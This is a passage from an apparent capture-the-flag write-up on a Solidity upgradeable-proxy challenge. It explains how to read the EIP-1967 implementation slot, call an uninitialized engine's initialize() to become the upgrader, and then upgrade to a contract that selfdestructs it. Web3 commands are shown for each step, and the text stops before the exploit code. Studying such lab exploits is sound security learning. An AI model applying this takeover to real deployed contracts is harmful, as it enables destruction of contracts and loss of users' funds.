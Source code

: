 ```solidity
        bytes memory data
    ) internal {
        // Initial upgrade and setup call
        _setImplementation(newImplementation);
        if (data.length > 0) {
            (bool success,) = newImplementation.delegatecall(data);
            require(success, "Call failed");
        }
    }
    
    // Stores a new address in the EIP1967 implementation slot.
    function _setImplementation(address newImplementation) private {
        require(Address.isContract(newImplementation), "ERC1967: new implementation is not a contract");
        
        AddressSlot storage r;
        assembly {
            r_slot := _IMPLEMENTATION_SLOT
        }
        r.value = newImplementation;
    }
}
```

This contract also follows a upgradable proxy pattern and it also implements [EIP-1967: Standard Proxy Storage Slots](https://eips.ethereum.org/EIPS/eip-1967) to maintain the storage slots related to proxy.

We need to `selfdestruct` the engine contract. We can call the `engine` contract through the `motorbike` contract or directly with the `engine` contract address, in order to destroy the engine we need to work with the storage of the `engine` contract, so delegate calling from `motorbike` won't help us.
We need to find the address of the `engine` contract, according to the EIP-1967 standards the address of logic contract will be stored at slot  `_IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;`
Now we have the `engine` contract address.

In order to update the address at slot `_IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;` we need to be the upgrader. We will use `initialize` function to become the upgrader. Hence that gives us the permission to call `upgradeToAndCall` function through we can update the implementation to our exploit contract which can `selfdestruct` the `engine`.

> #### Solution:
> - Get the address of the `engine` contract.
> ```js
> await web3.eth.getStorageAt(instance, "0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc");
> // 0x0000000000000000000000008d989014e1a52e12c870613109d2bb3ee0ec56f9
> engine = "0x" + "0x0000000000000000000000008d989014e1a52e12c870613109d2bb3ee0ec56f9".substring(26);
> // 0x8d989014e1a52e12c870613109d2bb3ee0ec56f9
> ```
> 
> - Call the initialize of engine to become the upgrader.
> ```js
> await sendTransaction({
>     from: player,
>     to: engine,
>     data: web3.eth.abi.encodeFunctionSignature("initialize()")
> });
> ```
> 
> - Deploy the exploit contract and call the `upgradeToAndCall` function to update and delegate call the implementation.
> ```js
